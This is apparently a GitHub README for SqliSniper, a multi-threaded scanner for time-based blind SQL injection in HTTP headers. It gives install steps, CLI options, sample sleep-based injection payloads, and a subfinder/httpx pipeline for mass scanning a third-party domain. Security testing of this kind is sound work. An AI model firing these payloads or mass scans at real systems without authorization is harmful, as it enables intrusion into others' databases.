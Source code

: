 # SqliSniper
**SqliSniper** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using advanced multi-threaded techniques.

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/danialhalo/SqliSniper.git
cd SQLSniper
chmod +x sqlisniper.py
pip3 install -r requirements.txt
```
# Usage:

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/sqlisniper$ ./sqlisniper.py -h


███████╗ ██████╗ ██╗     ██╗    ███████╗███╗   ██╗██╗██████╗ ███████╗██████╗
██╔════╝██╔═══██╗██║     ██║    ██╔════╝████╗  ██║██║██╔══██╗██╔════╝██╔══██╗
███████╗██║   ██║██║     ██║    ███████╗██╔██╗ ██║██║██████╔╝█████╗  ██████╔╝
╚════██║██║▄▄ ██║██║     ██║    ╚════██║██║╚██╗██║██║██╔═══╝ ██╔══╝  ██╔══██╗
███████║╚██████╔╝███████╗██║    ███████║██║ ╚████║██║██║     ███████╗██║  ██║
╚══════╝ ╚══▀▀═╝ ╚══════╝╚═╝    ╚══════╝╚═╝  ╚═══╝╚═╝╚═╝     ╚══════╝╚═╝  ╚═╝

                            -: By Muhammad Danial :-

usage: sqlisniper.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
```

# Running SQliSniper
### Single Url Scan
The url can be provided with `-u flag` for single site scan
```
./sqlisniper.py -u http://example.com
```
### File Input
This will run the tool with the `-r flag` against all the urls in urls.txt.
```
./sqlisniper.py -r url.txt
```
### Pipeline
The SqliSniper can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./sqlisniper.py -p
```
This is helpful when integrating with other tools. For example we can use the subfinder , httpx and then pipe the output to SqliSniper for mass scanning
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./sqlisniper.py -p
```
### Scanning with custom payloads  
By default the SqliSniper use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./sqlisniper.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniper dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/sqlisniper$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with single payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./sqlisniper.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/sqlisniper$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```


